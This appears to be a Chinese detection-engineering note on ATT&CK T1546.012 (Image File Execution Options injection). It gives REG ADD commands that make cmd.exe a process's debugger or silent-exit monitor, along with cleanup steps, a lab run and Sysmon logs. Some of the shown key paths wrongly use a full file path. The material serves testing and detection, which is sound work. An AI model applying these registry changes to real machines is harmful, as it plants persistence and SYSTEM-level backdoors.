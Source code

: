 # T1546-012-Win-事件触发执行-图片文件执行选项注入

## 来自ATT&CK描述

攻击者可以通过执行由图像文件执行选项 (IFEO) 调试器触发的恶意内容来建立持久性或权限提升。IFEO使开发人员能够将调试器附加到应用程序。创建进程时，应用程序的IFEO中的调试器将附加到应用程序的名称之前，从而有效地在调试器下启动新进程（例如，`C:\dbg\ntsd.exe -g notepad.exe`）。

IFEO可以通过注册表直接设置，也可以通过GFlags工具在Global Flags中设置。IFEO表示为`Debugger`注册表中的值，在那里是附加调试器的二进制文件`HKLM\SOFTWARE{{\Wow6432Node}}\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\``<executable>`

IFEO还可以在指定程序静默退出（即被自身或第二个非内核模式进程提前终止）时启动任意监控程序。与调试器类似，静默退出监控可以通过GFlags或通过直接修改 IFEO和静默进程退出注册表值来启用`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\`。

与Accessibility Features类似，在 Windows Vista 和更高版本以及 Windows Server 2008或更高版本上，可以修改注册表项，将“cmd.exe”或其他提供后门访问的程序配置为可访问性程序的“调试器” （例如：utilman.exe）。修改注册表后，在使用键盘或与远程桌面协议连接时在登录屏幕上按适当的组合键将导致“调试器”程序以 SYSTEM 权限执行。

与Process Injection类似，这些值也可能被滥用，通过利用恶意可执行文件在计算机上不同进程的上下文中加载和运行来获得权限提升。安装IFEO机制还可以通过持续触发调用来提供持久性。

恶意软件还可能通过注册无效调试器来使用IFEO来减少防御，这些调试器重定向并有效地禁用各种系统和安全应用程序。

## 测试案例

### 测试1 IFEO Add Debugger

测试命令，用命令提示符运行，需要管理员权限（root/admin）：

```yml
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /d "#{payload_binary}"
```

target_binary：C:\Windows\System32\calc.exe
payload_binary：C:\Windows\System32\cmd.exe
清理命令：

```yml
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /f >nul 2>&1
```

### 测试2 IFEO Global Flags

测试命令，用命令提示符运行，需要管理员权限（root/admin）：

```yml
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /t REG_DWORD /d 512

REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /t REG_DWORD /d 1

REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /d "#{payload_binary}"
```

target_binary：C:\Windows\System32\notepad.exe
payload_binary：C:\Windows\System32\cmd.exe
清理命令：

```yml
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /f >nul 2>&1

reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /f >nul 2>&1

reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /f >nul 2>&1
```

## 检测日志

Windows Sysmon日志

## 测试复现

### 测试1 IFEO Add Debugger

```yml
C:\Users\Administrator.ZHULI>REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\C:\Windows\System32\calc.exe" /v Debugger /d "C:\Windows\System32\cmd.exe"
操作成功完成。

C:\Users\Administrator.ZHULI>reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\C:\Windows\System32\calc.exe" /v Debugger /f >nul 2>&1
```

### 测试2 IFEO Global Flags

```yml
C:\Users\Administrator.ZHULI>REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\C:\Windows\System32\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512
操作成功完成。

C:\Users\Administrator.ZHULI>REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\C:\Windows\System32\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
操作成功完成。

C:\Users\Administrator.ZHULI>REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\C:\Windows\System32\notepad.exe" /v MonitorProcess /d "C:\Windows\System32\cmd.exe"
操作成功完成。

C:\Users\Administrator.ZHULI>reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\C:\Windows\System32\notepad.exe" /v GlobalFlag /f >nul 2>&1

C:\Users\Administrator.ZHULI>reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\C:\Windows\System32\notepad.exe" /v ReportingMode /f >nul 2>&1

C:\Users\Administrator.ZHULI>reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\C:\Windows\System32\notepad.exe" /v MonitorProcess /f >nul 2>&1
```

## 测试留痕

### 测试1 ## IFEO Add Debugger

```yml
#进程创建事件，EventID：1      

Process Create:

RuleName: technique_id=T1112,technique_name=Modify Registry

UtcTime: 2022-01-13 07:34:03.518

ProcessGuid: {78c84c47-d5eb-61df-c829-000000000800}

ProcessId: 3704

Image: C:\Windows\System32\reg.exe

FileVersion: 10.0.17763.1 (WinBuild.160101.0800)

Description: Registry Console Tool

Product: Microsoft® Operating System

Company: Microsoft Corporation

OriginalFileName: reg.exe

CommandLine: REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\C:\Windows\System32\calc.exe" /v Debugger /d "C:\Windows\System32\cmd.exe"

CurrentDirectory: C:\Users\Administrator.ZHULI\

User: ZHULI\Administrator

LogonGuid: {78c84c47-f665-61db-95da-440100000000}

LogonId: 0x144DA95

TerminalSessionId: 3

IntegrityLevel: High

Hashes: SHA1=429DF8371B437209D79DC97978C33157D1A71C4B,MD5=8A93ACAC33151793F8D52000071C0B06,SHA256=19316D4266D0B776D9B2A05D5903D8CBC8F0EA1520E9C2A7E6D5960B6FA4DCAF,IMPHASH=BE482BE427FE212CFEF2CDA0E61F19AC

ParentProcessGuid: {78c84c47-d076-61df-ec28-000000000800}

ParentProcessId: 5864

ParentImage: C:\Windows\System32\cmd.exe

ParentCommandLine: "C:\Windows\system32\cmd.exe" 

ParentUser: ZHULI\Administrator

#注册表修改事件，EventID：13
Registry value set:

RuleName: technique_id=T1546.012,technique_name=Image File Execution Options Injection

EventType: SetValue

UtcTime: 2022-01-13 07:34:03.518

ProcessGuid: {78c84c47-d5eb-61df-c829-000000000800}

ProcessId: 3704

Image: C:\Windows\system32\reg.exe

TargetObject: HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\C:\Windows\System32\calc.exe\Debugger

Details: C:\Windows\System32\cmd.exe

User: ZHULI\Administrator
```

### 测试2 IFEO Global Flags

```yml
#进程创建事件不再列举，重点关注一下注册表更改信息，事件ID:13
Registry value set:

RuleName: technique_id=T1546.012,technique_name=Image File Execution Options Injection

EventType: SetValue

UtcTime: 2022-01-13 07:42:06.705

ProcessGuid: {78c84c47-d7ce-61df-122a-000000000800}

ProcessId: 6828

Image: C:\Windows\system32\reg.exe

TargetObject: HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\C:\Windows\System32\notepad.exe\GlobalFlag

Details: DWORD (0x00000200)

User: ZHULI\Administrator
```

## 检测规则/思路

### 建议

这种类型的攻击技术无法通过预防性控制轻松缓解，因为它基于对系统功能的滥用。

## 参考推荐

MITRE-ATT&CK-T1546-012

<https://attack.mitre.org/techniques/T1546/012>

Atomic-red-team-T1546-012

<https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1546.012/T1546.012.md>
